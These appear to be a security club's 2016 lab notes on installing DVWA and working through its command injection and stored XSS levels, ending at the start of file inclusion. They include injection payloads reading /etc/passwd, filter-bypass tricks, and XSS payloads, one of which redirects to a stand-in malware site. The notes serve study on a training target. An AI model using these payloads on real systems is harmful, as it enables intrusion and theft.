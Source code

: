 ```yaml
---
layout: post
tagline: "Web Exploitation: DVWA"
date: 2016-10-25
categories: Meetings
---
```


# Matthews Notes

## Installing DVWA on kali.

download DVWA:
http://www.dvwa.co.uk/


unzip it and put it in /var/www/html
mv DVWA-1.9/ /dvwa
chmod -R 755 dvwa
sudo service mysql start
mysql -u root -p
create database dvwa;
exit
nano dvwa/config/config.inc.php and change the db_password to ''
service apache2 start
go to /dvwa/setup.php

Fixing some permission errors:
chgrp www-data dvwa/hackable/uploads/
chmod g+w dvwa/hackable/uploads/
chgrp www-data dvwa/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt
chmod g+w dvwa/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt

to get php-gd we need to add a repo.
nano /etc/apt/sources.list

at the end of the file add:
deb http://repo.kali.org/kali kali-rolling main non-free contrib 
and save the file.

apt-get update
apt-get install php-gd

nano /etc/php5/apache2/php.ini
change allow_url_include from Off to On
service apache2 restart

Now we're good to start!
You could try to brute force to login using burpsuite, but the default security setting is impossible.
So use : 
username:admin 
password:password


## Command Injection

Security: low

Heres we can see at /var/www/html/dvwa/vulnerabilities/exec/source/low.php that there is no blacklist,

so we can simply provide another command using the semicolon and it will execute the second one.

127.0.0.1; cat /etc/passwd

Security: medium

looking at /var/www/html/dvwa/vulnerabilities/exec/source/medium.php we can see a blacklist has been added to remove &&, and ;
This means we can no longer do our low solution.

Theres this handy thing called a pipe "|", so what if we use it instead of a semi colon.

We can send 
127.0.0.1 | cat /etc/passwd

we could also do 
127.0.0.1 &;& cat /etc/passwd 
thus recreating && since the semicolon is santized.
&& executes a command if the previous one worked.

Hey it works!

Security: high

We have quite the blacklist for this one which prevents us from using a number of special characters. Unless we can somehow bypass the blacklist

The description for high level says "The developer has either made a slight typo with the filters, and believes a certain PHP command will save them from this mistake
We can see they accidently only put one '&' instead of two. 
The command different between medium and high is the trim command which strips whitespace from the beginning and end of the command
This means whitespace in the middle of a command is perfectly safe from trimming
What if we had something like \n which is treated like whitespace, we could use characters like this 

It doesn't work for some reason

## XSS Stored

Security: low
Here we can do a simple xss, and do
alert("XSS")
in <script> tags
do change this to redirection to some website, simply replace 'alert("XSS")' with
document.location='http://evilsite.com/malware'

Security: medium
Here we can see they are filtering message box pretty well, but its different for the name field, so we'll start there
It is looking for '<script>' so we can just provide a different but equivalent string, like
'<ScRiPt>' , doing this allows our previous test to work
alert("XSS")
in <ScRiPt> tags

Security: high

Here they are filtering out anything that looks like script, so we have to use something else.
<svg onload=prompt('xss')>


## File Inclusion

By clicking on the example files we can see that they are dynamically running them to gather information,
this means that we could inject code into them, and similar to an XSS attack, run whatever we want on this website

Security: low

There are two types of exploits here, Local Files (LF) which are stored on the site.
and Remote Files (RF) which are not, but that doesn't mean we can't do anything about them.
